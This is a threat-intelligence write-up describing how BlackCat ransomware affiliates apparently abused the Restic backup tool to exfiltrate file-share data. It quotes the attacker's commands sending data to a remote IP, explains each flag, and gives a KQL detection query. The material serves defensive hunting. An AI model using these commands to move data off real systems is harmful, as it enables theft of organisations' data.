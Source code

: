 
# Restic | Data Exfiltration

# Summary:

Restic is an open-source backup tool that supports backing up data to various storage types, including local directories, SFTP servers, and cloud services like Amazon S3, Google Cloud Storage, and Microsoft Azure. Recently, it has been observed in use by the BlackCat Ransomware Affiliates.

## Attribution & Threat Actor
- BlackCat Ransomware Affiliates

## Diagram Overview of Attack/Methods STIX2: 

[STIX Visualizer](https://oasis-open.github.io/cti-stix-visualization/?url=https://raw.githubusercontent.com/CTI-Driven/Advanced-Threat-Hunting-Ransomware-Groups/main/Arsenals/Restic/STIX/Restic.json)

![Diagram Overview of Attack/Methods STIX2](Restic.png) 

## Technical Details:

The threat actor used Restic to perform the data exfiltration. Below are the two primary commands executed by the attacker:

## a) Initializing the Backup Repository
```bash
restic.exe -r rest:http://195.123.226.84:8000/ init --password-file ppp.txt
```

- **restic.exe**: The Restic binary used for the backup operation.
- **-r rest:http://195.123.226.84:8000/**: This specifies the backup repository location. The backup data was sent over HTTP to a remote server (`195.123.226.84`) running a REST service on port 8000.
- **init**: Initializes a new backup repository at the specified location.
- **--password-file ppp.txt**: The `ppp.txt` file contains the password for accessing the repository. This password file is required to encrypt/decrypt the backup data.

## b) Executing the Data Exfiltration
```bash
restic.exe -r rest:http://195.123.226.84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
```

- **backup "F:\Shares\<REDACTED>\<REDACTED>"**: This command backs up the data from the local directory located at `F:\Shares\<REDACTED>\<REDACTED>`.
- **--password-file ppp.txt**: Uses the password file to authenticate to the backup repository.
- **--use-fs-snapshot**: This option enables Restic to leverage the **Volume Shadow Copy Service (VSS)**, which allows it to create backups of files that may be locked by other processes. This is particularly useful for backing up active files that are currently in use.
- **--verbose**: Prints live output during the backup process, providing status updates on the exfiltration process.


## Detection Opportunities (KQL):

```kusto
// Replace "Timestamp" with "TimeGenerated" when running this KQL query in Microsoft Sentinel.
//Comment: A true positive would involve the following:
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
//-> Preparing a new repository CommandLine activity using restic
//-> Local: restic init --repo /srv/restic-repo
//-> SFTP: restic -r sftp:user@host:/srv/restic-repo init
//-> REST Server: restic -r rest:http://host:8000/ init
//-> Amazon S3: restic -r s3:s3.us-east-1.amazonaws.com/bucket_name init
//-> Minio Server: restic -r s3:http://localhost:9000/restic init
//-> OpenStack Swift: restic -r swift:container_name:/path init
//-> Wasabi: restic -o s3.bucket-lookup=dns -o s3.region=<OSS-REGION> -r s3:https://<OSS-ENDPOINT>/<OSS-BUCKET-NAME> init
//-> Backblaze B2: restic -r b2:bucketname:path/to/repo init
//-> Microsoft Azure Blob Storage: restic -r azure:foo:/ init
//-> Google Cloud Storage: restic -r gs:foo:/ init
//-> rclone: restic -r rclone:foo:bar init
/Title: Detect the Use of Restic for Backup Repository Initiation and Data Exfiltration.
//QKL Advanced hunting query:
let timeframe = 24hr;
// Detection 1: Traffic related to Restic API HTTP header request
let Restic_API_HTTPRequest = (
    DeviceNetworkEvents
    | where Timestamp >= ago(timeframe)
    | where ActionType == "HttpConnectionInspected"
    | extend AdditionalFields_info = parse_json(AdditionalFields)
    | where  AdditionalFields_info.uri in ("application/vnd.x.restic.rest.v1", "application/vnd.x.restic.rest.v2")
          or AdditionalFields_info.user_agent contains "restic"
);
// Detection 2: Process commands events related to Restic tool that could be used to initiate the backup repository and exfiltration
let Restic_ProcessCommandsEvents = (
    DeviceProcessEvents
    | where Timestamp >= ago(timeframe)
    | where ((ProcessCommandLine has_all (" -r", " :/", " init") or ProcessCommandLine has_all (" --repo", ":/", " init"))
     or ProcessCommandLine has_any (" backup", " init")
     and (   (ProcessCommandLine has_all (" -r", " sftp:"))
           or(ProcessCommandLine has_all (" -r", " rest:http"))
           or(ProcessCommandLine has_all (" -r", " s3:s3.", "amazonaws"))
           or(ProcessCommandLine has_all (" -r", " s3:http"))
           or(ProcessCommandLine has_all (" -r", " swift:"))
           or(ProcessCommandLine has_all (" -r", " b2:"))
           or(ProcessCommandLine has_all (" -r", " azure:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " rclone:"))
)));
// Combine all detections
let Suspicious_Restic_data_Exfiltration_Activities = (
    union Restic_API_HTTPRequest, Restic_ProcessCommandsEvents
    | summarize arg_max(Timestamp, *) by DeviceId
    | order by Timestamp asc
);Suspicious_Restic_data_Exfiltration_Activities
```

## ATT&CK Techniques:

1. **Exfiltration**
    - **T1048 - Exfiltration Over Alternative Protocol**:  
       The threat actor utilized Restic, an open-source backup tool, to exfiltrate data from a file server by backing up directories over HTTP to a remote server. The tool used the rest backend to store data on a remote REST server. 

## References:
- https://thedfirreport.com/2024/09/30/nitrogen-campaign-drops-sliver-and-ends-with-blackcat-ransomware/#exfiltration
- https://restic.net
